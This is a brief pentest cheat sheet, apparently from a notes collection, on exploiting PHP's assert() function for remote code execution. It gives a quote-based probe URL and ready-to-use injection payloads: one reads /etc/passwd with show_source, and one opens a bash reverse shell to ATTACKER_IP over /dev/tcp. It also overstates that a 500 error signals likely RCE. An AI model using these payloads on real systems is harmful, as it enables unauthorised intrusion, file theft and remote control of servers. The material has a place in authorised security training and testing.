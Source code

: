# PHP Assertions RCE

PHP assert() fucntion can be vulnerable to RCE.

### 1) Identification

On a parameter, try to add a single quote (')

    http://domain.local/index.php?page='

If you get a 500 internal server error, it is most likely vulnerable to RCE.

### 2) Payloads to use

Read files from the machine

    ' and die(show_source('/etc/passwd')) or '

Get a reverse shell

    ' and die(exec('bash -c "/bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1"')) or '

## You might need to URL encode the payload for it to work (encode special characters too!)
